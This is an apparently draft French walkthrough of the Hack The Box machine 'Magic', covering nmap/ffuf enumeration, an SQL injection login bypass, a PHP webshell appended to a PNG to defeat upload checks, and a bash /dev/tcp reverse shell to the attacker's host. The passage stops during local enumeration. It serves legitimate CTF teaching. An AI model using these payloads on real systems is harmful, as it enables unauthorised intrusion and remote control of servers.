




---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Magic — HTB Medium Writeup & Walkthrough"
linkTitle: "Magic"
slug: "magic"
date: 2026-06-15T10:06:17+02:00
#lastmod: 2026-06-15T10:06:17+02:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Magic (HTB Medium) : injection SQL, téléversement d’un fichier PHP, extraction d’identifiants MySQL et détournement du PATH pour devenir root."
description: "Writeup de Magic (HTB Medium) : injection SQL, upload PHP, extraction de données MySQL et détournement du PATH pour obtenir root."
tags: ["Hack The Box","HTB Medium","Web","SQL Injection","File Upload","PHP","MySQL","Credential Reuse","strace","SUID","PATH Hijacking","linux-privesc"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Machine Magic HTB Medium exploitée par injection SQL et téléversement PHP, puis par détournement du PATH jusqu’à root"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Magic"
  difficulty: "Medium"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","SQL Injection","File Upload","Credential Reuse","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Magic> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

La machine **Magic** de Hack The Box, classée **HTB Medium**, propose une chaîne d’exploitation progressive mêlant vulnérabilité web, réutilisation d’identifiants et détournement de commandes système.

La prise de pied commence par le contournement d’un formulaire d’authentification vulnérable à une **injection SQL**. L’accès obtenu permet ensuite d’exploiter une fonctionnalité d’envoi d’images dont les contrôles peuvent être contournés afin de déposer un fichier contenant du code PHP. Son exécution depuis le serveur web conduit à l’obtention d’un reverse shell sous l’identité de `www-data`.

L’analyse des fichiers de l’application révèle des identifiants permettant d’interroger la base de données. Son contenu expose alors un mot de passe réutilisable pour accéder au compte local `theseus`. Enfin, l’escalade de privilèges repose sur un binaire SUID qui exécute plusieurs commandes système sans utiliser leur chemin absolu. Un détournement de la variable `PATH` permet alors de faire exécuter une commande contrôlée avec les privilèges de `root`.

Ce walkthrough détaille ainsi une compromission complète mêlant injection SQL, contournement des contrôles d’upload, recherche d’identifiants, réutilisation de mot de passe et détournement de `PATH`.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/magic/full_tcp_scan.txt magic.htb
Nmap scan report for magic.htb (10.129x.x)
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 6.80 seconds

```

### Scan FTP/SMB

Après le scan initial, le script vérifie la présence éventuelle de services **FTP** ou **SMB** afin de lancer une énumération ciblée si nécessaire :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : magic.htb
# Date   : [date]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour magic.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed or ssl-cert) and not (http-vuln-cve2017-1001000 or http-sql-injection or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "magic.htb"

# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed or ssl-cert) and not (http-vuln-cve2017-1001000 or http-sql-injection or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/magic/aggressive_vuln_scan_raw.txt magic.htb
Nmap scan report for magic.htb (10.129.x.x)
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   14.57 ms 10.10.x.1
2   8.05 ms  magic.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 14.55 seconds
 nmap -Pn -A -sV -p"22,2222,8080,35627,42277" --script="http-vuln-*,http-shellshock,http-sql-injection,ssl-cert,ssl-heartbleed,sslv2,ssl-dh-params" --script-timeout=30s -T4 "magic.htb"
```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/magic/cms_vuln_scan.txt magic.htb
Nmap scan report for magic.htb (10.129.x.x)
Host is up (0.013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-headers: 
|   Date: [date]
|   Server: Apache/2.4.29 (Ubuntu)
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; php: 1
|     /assets/css/
|       css: 2
|     /assets/js/
|       js: 6
|     /images/fulls/
|       jpeg: 1; jpg: 4
|     /images/uploads/
|       gif: 1; jpg: 3; png: 1
|   Longest directory structure:
|     Depth: 2
|     Dir: /assets/css/
|   Total files found (by extension):
|_    Other: 1; css: 2; gif: 1; jpeg: 1; jpg: 7; js: 6; php: 1; png: 1
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-enum: 
|_  /login.php: Possible admin folder
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 17.11 seconds

```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/magic/udp_vuln_scan.txt magic.htb
Nmap scan report for magic.htb (10.129x.x)
Host is up (0.012s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   open|filtered ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 8.21 seconds

```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

```bash
mon-recoweb magic.htb --fs 274

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt` regroupe les chemins découverts, ce qui évite de devoir parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.3

Cible        : magic.htb
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://magic.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/magic.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://magic.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -fs 274 -of json -o scans_recoweb/magic.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/magic.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://magic.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -fs 274 -of json -o scans_recoweb/magic.htb/ffuf_files.json 2>&1 | tee scans_recoweb/magic.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://magic.htb/assets/
http://magic.htb/assets/ (CODE:301|SIZE:307)
http://magic.htb/. (CODE:200|SIZE:4051)
http://magic.htb/images/
http://magic.htb/images/ (CODE:301|SIZE:307)
http://magic.htb/index.php (CODE:200|SIZE:4051)
http://magic.htb/index.php (CODE:200|SIZE:4053)
http://magic.htb/login.php (CODE:200|SIZE:4221)
http://magic.htb/logout.php (CODE:302|SIZE:0)
http://magic.htb/server-status (CODE:403|SIZE:274)
http://magic.htb/upload.php (CODE:302|SIZE:2957)

=== Détails par outil ===

[DIRB]
http://magic.htb/assets/
http://magic.htb/images/
http://magic.htb/index.php (CODE:200|SIZE:4053)
http://magic.htb/server-status (CODE:403|SIZE:274)

[FFUF — DIRECTORIES]
http://magic.htb/assets/ (CODE:301|SIZE:307)
http://magic.htb/images/ (CODE:301|SIZE:307)

[FFUF — FILES]
http://magic.htb/. (CODE:200|SIZE:4051)
http://magic.htb/index.php (CODE:200|SIZE:4051)
http://magic.htb/login.php (CODE:200|SIZE:4221)
http://magic.htb/logout.php (CODE:302|SIZE:0)
http://magic.htb/upload.php (CODE:302|SIZE:2957)

```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
mon-subdomains magic.htb

=== mon-subdomains magic.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.1
Date         : [date]
Domaine      : magic.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=200 size=4053 words=207 (Host=sz8lc1zow5.magic.htb)
  Baseline#2: code=200 size=4053 words=207 (Host=dv366unpqe.magic.htb)
  Baseline#3: code=200 size=4052 words=207 (Host=y7ax30z2pn.magic.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains magic.htb END ===


```

Si aucun vhost distinct n’est identifié, ce fichier confirme l’absence de résultats supplémentaires.

## Prise pied

La page d’accueil de Magic présente une galerie d’images déjà uploadées sur le site. L’application semble donc proposer une fonctionnalité d’envoi d’images, mais celle-ci n’est pas directement accessible depuis la page principale.


En bas à gauche de la page, un lien discret indique :

```text
Please Login, to upload images.
```

Cet élément est important : il t’apprend que l’upload d’images existe bien, mais qu’il est réservé aux utilisateurs authentifiés.

L’étape suivante consiste donc à ouvrir la page de connexion afin d’identifier le mécanisme qui protège cette fonctionnalité.




Le formulaire est très simple. Il ne contient que deux champs :

```text
Username
Password
```

Tu as donc une application qui expose une fonctionnalité intéressante, l’upload d’images, mais qui impose d’abord une authentification.

La suite de la prise de pied consiste à étudier ce formulaire de connexion pour tenter d’accéder à cette zone protégée.

### Contournement de l’authentification par injection SQL

Comme tu ne disposes d’aucun identifiant valide, tu peux commencer par tester quelques couples classiques de connexion.

Par exemple :

```text
admin:admin
admin:password
root:root
test:test
```

Ces tentatives ne permettent pas de te connecter. L’application reste sur le formulaire de connexion et affiche un message d’échec.


Tu peux ensuite faire un test simple dans le champ `username` en saisissant uniquement une apostrophe :

```text
'
```

Ce test ne provoque pas de message d’erreur visible, mais il reste intéressant. Sur un formulaire de connexion, l’apostrophe est un caractère particulier, car elle peut perturber une requête SQL mal protégée. Même sans erreur affichée, ce type de test te met donc sur la piste d’une possible injection SQL.

Pour rester méthodique, tu peux alors t’appuyer sur une liste publique de payloads classiques de contournement d’authentification par injection SQL, comme la cheat sheet publiée par Penetration Testing Lab :

[SQL Injection Authentication Bypass Cheat Sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

Tu testes ensuite les payloads un par un dans le champ `username`, en laissant le champ `password` vide ou avec une valeur quelconque.

Dans ce cas, le premier payload qui fonctionne est :

```
admin' #
```



Après validation du formulaire avec ce payload, l’application ne réagit plus comme lors d’un mauvais mot de passe. Cette fois, l’authentification est contournée et tu accèdes à la zone d’upload d’images.


La chaîne commence donc par une injection SQL sur le formulaire de connexion :

```text
Injection SQL sur le formulaire de connexion → contournement de l’authentification → accès à la zone d’upload
```

### Transformation de l’upload en exécution de commandes

À première vu#e, cette fonctionnalité sert simplement à envoyer une image sur le site. Mais dans une application web, un upload de fichier est toujours un point sensible : si le serveur accepte un fichier contenant du code, et si ce fichier est ensuite interprété par le serveur, l’upload peut devenir un moyen d’exécuter des commandes.

L’objectif est donc de vérifier si tu peux envoyer une image contenant du code PHP.

#### Première tentative : envoyer un faux PNG contenant du PHP

Pour ce premier test, le contenu PHP reste volontairement minimal :

```php
<?php system($_GET['cmd']); ?>
```

Ce code permet de transformer le fichier uploadé en petit webshell.

Le principe est le suivant : la fonction PHP `system()` exécute une commande système côté serveur. Ici, la commande à exécuter est récupérée depuis le paramètre `cmd` présent dans l’URL.

Par exemple, si le fichier est accessible et interprété comme du PHP, une URL de ce type :

```text
http://magic.htb/images/uploads/shell.php.png?cmd=id
```

doit exécuter la commande suivante sur la machine cible :

```bash
id
```

Ce test est pratique, car la commande `id` est simple, non destructive, et te permet immédiatement de savoir sous quel utilisateur le serveur web exécute les commandes.

Une première idée consiste donc à créer un fichier avec une double extension :

```text
shell.php.png
```

L’idée est simple :

```text
.php  → pour tenter de faire interpréter le fichier comme du PHP
.png  → pour essayer de le faire accepter comme une image
```

Tu tentes ensuite d’envoyer ce fichier depuis le formulaire d’upload.



Cette première tentative échoue. L’application affiche le message explicite suivant :


Cela signifie que l’application détecte que le fichier envoyé n’est pas une image valide, ou qu’il ne respecte pas les contrôles attendus par le formulaire.

Cette étape est intéressante, car elle te montre que le contournement ne se limite pas à renommer un fichier PHP en `.png`. Le serveur applique au moins une vérification supplémentaire.

Il faut donc préparer un fichier qui ressemble davantage à une vraie image, tout en contenant le code PHP minimal présenté plus haut.

#### Deuxième tentative : ajouter le PHP à une vraie image PNG

Pour contourner ce contrôle, tu peux repartir d’une vraie image PNG existante, puis lui ajouter le code PHP minimal.

L’idée est de conserver un fichier qui ressemble vraiment à une image pour les contrôles de l’application, tout en ajoutant du PHP à l’intérieur du fichier.

Sur Kali, un fichier pratique pour ce test est le logo Debian, généralement disponible ici :

```bash
/usr/share/pixmaps/debian-logo.png
```

Tu peux vérifier qu’il s’agit bien d’une image PNG avec la commande `file` :

```bash
file /usr/share/pixmaps/debian-logo.png
```

La sortie doit indiquer un fichier de type PNG :

```text
/usr/share/pixmaps/debian-logo.png: PNG image data, 48 x 48, 8-bit/color RGBA, non-interlaced
```

Tu copies ensuite cette image dans ton répertoire de travail :

```bash
cp /usr/share/pixmaps/debian-logo.png debian-logo.php.png
```

Puis tu ajoutes le code PHP minimal à la fin du fichier :

```bash
cat >> debian-logo.php.png << 'EOF'
<?php system($_GET['cmd']); ?>
EOF
```

Tu obtiens alors un fichier qui reste basé sur une vraie image PNG, mais qui contient aussi ton code PHP.

Tu peux vérifier le résultat avec `file` :

```bash
file debian-logo.php.png
```

Le point intéressant est que le fichier est toujours reconnu comme une image PNG :

```text
debian-logo.php.png: PNG image data, 48 x 48, 8-bit/color RGBA, non-interlaced
```

Tu peux maintenant retenter l’upload de ce nouveau fichier `shell.php.png`.

Un message en haut à gauche de l'écran t'indique que l'upload a réussi


L’étape suivante consiste à appeler le fichier uploadé dans `/images/uploads/` avec le paramètre `cmd`, afin de vérifier si le code PHP ajouté est bien interprété par le serveur.

### Vérification de l’exécution de commandes

Après l’upload du fichier `debian-logo.php.png`, tu testes si le code PHP ajouté à l’image est bien interprété par le serveur.

Pour cela, tu appelles le fichier avec le paramètre `cmd=id` :

```text
http://magic.htb/images/uploads/debian-logo.php.png?cmd=id
```

La page affiche le contenu brut de l’image, mais on voit aussi le résultat de la commande `id` à la fin de la réponse :

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



Cette sortie confirme que le PHP ajouté à l’image est bien exécuté côté serveur.

Tu as donc obtenu une exécution de commandes avec le contexte du serveur web, c’est-à-dire l’utilisateur `www-data`.

À ce stade, tu ne disposes pas encore d’un shell interactif, mais tu as un webshell fonctionnel. Il suffit de modifier la valeur du paramètre `cmd` pour exécuter d’autres commandes.


### Obtention d’un reverse shell

Le webshell fonctionne : tu peux exécuter une commande en passant sa valeur dans le paramètre `cmd`.

Par exemple :

```text
http://magic.htb/images/uploads/debian-logo.php.png?cmd=id
```

C’est suffisant pour confirmer l’exécution de commandes, mais ce n’est pas très pratique pour continuer l’énumération. Chaque commande doit être passée dans l’URL, ce qui devient vite pénible.

L’étape suivante consiste donc à obtenir un reverse shell vers Kali.

Sur Kali, tu commences par ouvrir un port en écoute avec `nc` :

```bash
nc -lvnp 4444
```

Ensuite, depuis le webshell, tu fais exécuter à la cible une commande qui va initier une connexion vers ta machine Kali.

Le payload Bash utilisé est le suivant :

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.20/4444 0>&1'
```

Le point important ici est l’utilisation de `bash -c`.

Cette partie force la cible à exécuter la commande avec Bash :

```bash
bash -c '...'
```

C’est important, car la redirection `/dev/tcp/10.10.16.20/4444` est une fonctionnalité interprétée par Bash. Si la commande est exécutée par un autre shell, elle peut échouer.

La commande complète signifie donc, de manière simplifiée :

```text
ouvre un shell interactif Bash
et connecte-le vers Kali sur le port 4444
```

Comme cette commande doit être envoyée dans une URL, certains caractères spéciaux doivent être encodés. Dans le navigateur, l’URL appelée ressemble à ceci :

```text
http://magic.htb/images/uploads/debian-logo.php.png?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.16.20/4444%200%3E%261%27
```

Sur Kali, tu commences par ouvrir un port en écoute. 

Tu pourrais utiliser simplement `nc` :

```bash
nc -lvnp 4444
```

Pour plus de confort, tu peux aussi utiliser `rlwrap` au lieu de `nc` :

```bash
rlwrap -cAr nc -lvnp 4444
```

Une fois l’URL appelée, une connexion arrive sur le listener ouvert sur Kali.

```bash
Listening on 0.0.0.0 4444
Connection received on 10.129.x.x 37936
bash: cannot set terminal process group (1119): Inappropriate ioctl for device
bash: no job control in this shell
```

Tu obtiens alors un shell distant sur la machine cible.

Tu peux vérifier le contexte avec :

```bash
id
```

La sortie confirme que le shell est exécuté avec l’utilisateur du serveur web :

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

À ce stade, tu as quitté le simple webshell dans l’URL. Tu disposes maintenant d’un reverse shell en tant que `www-data`, ce qui va rendre l’énumération locale beaucoup plus confortable.

### Stabilisation du shell

Le reverse shell obtenu fonctionne, mais il reste basique. Pour rendre l’interaction plus confortable, tu peux le stabiliser avec la méthode classique. 

Cette étape est détaillée dans la recette dédiée : . 

Dans le shell distant, tu commences par obtenir un pseudo-terminal avec Python :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ensuite, côté Kali, tu suspends le shell avec `Ctrl+Z`, puis tu configures le terminal local :

```bash
stty raw -echo; fg
```

Après le retour dans le shell distant, tu termines la stabilisation :

```bash
export TERM=xterm
stty rows 40 columns 120
```

À partir de ce moment, ton shell devient plus agréable à utiliser : l’affichage est meilleur, les commandes interactives fonctionnent mieux, et tu peux poursuivre l’énumération locale dans de meilleures conditions.

### Exploration de l’environnement

Le reverse shell obtenu s’exécute avec l’utilisateur `www-data`. Avant de chercher directement une escalade de privilèges, tu peux commencer par explorer rapidement l’environnement local.

Un premier réflexe simple consiste à regarder les répertoires présents dans `/home` :

```
ls -la /home
```

La sortie montre qu’un seul utilisateur local semble présent :

```
total 12
drwxr-xr-x  3 root    root    4096 Jul  6  2021 .
drwxr-xr-x 24 root    root    4096 Jul  6  2021 ..
drwxr-xr-x 15 theseus theseus 4096 Jul 12  2021 theseus
```

Le compte utilisateur intéressant est donc :

```
theseus
```

Tu peux ensuite regarder le contenu du répertoire de cet utilisateur :

```bash
ls -la /home/theseus
```

La sortie confirme qu’il s’agit d’un vrai compte utilisateur, avec un environnement classique de session Linux :

```text
total 80
drwxr-xr-x 15 theseus theseus 4096 Jul 12  2021 .
drwxr-xr-x  3 root    root    4096 Jul  6  2021 ..
-rw-------  1 theseus theseus  636 Jul 12  2021 .ICEauthority
lrwxrwxrwx  1 theseus theseus    9 Oct 21  2019 .bash_history -> /dev/null
-rw-r--r--  1 theseus theseus  220 Oct 15  2019 .bash_logout
-rw-r--r--  1 theseus theseus   15 Oct 21  2019 .bash_profile
-rw-r--r--  1 theseus theseus 3771 Oct 15  2019 .bashrc
drwxrwxr-x 13 theseus theseus 4096 Jul  6  2021 .cache
drwx------ 13 theseus theseus 4096 Jul  6  2021 .config
drwx------  3 theseus theseus 4096 Jul  6  2021 .gnupg
drwx------  3 theseus theseus 4096 Jul  6  2021 .local
drwx------  2 theseus theseus 4096 Jul  6  2021 .ssh
drwxr-xr-x  2 theseus theseus 4096 Jul  6  2021 Desktop
drwxr-xr-x  2 theseus theseus 4096 Jul  6  2021 Documents
drwxr-xr-x  2 theseus theseus 4096 Jul  6  2021 Downloads
drwxr-xr-x  2 theseus theseus 4096 Jul  6  2021 Music
drwxr-xr-x  2 theseus theseus 4096 Jul  6  2021 Pictures
drwxr-xr-x  2 theseus theseus 4096 Jul  6  2021 Public
drwxr-xr-x  2 theseus theseus 4096 Jul  6  2021 Templates
drwxr-xr-x  2 theseus theseus 4096 Jul  6  2021 Videos
-r--------  1 theseus theseus   33 Jul  8 08:42 user.txt
```

Deux éléments sont intéressants.

Le fichier `user.txt` est bien présent dans le répertoire de `theseus`, mais ses permissions sont restrictives :

```text
-r-------- 1 theseus theseus user.txt
```

Cela signifie que seul l’utilisateur `theseus` peut le lire. Depuis le shell actuel en `www-data`, tu ne peux donc pas récupérer directement le flag utilisateur.

Le répertoire `.ssh` existe également, mais il est protégé :

```text
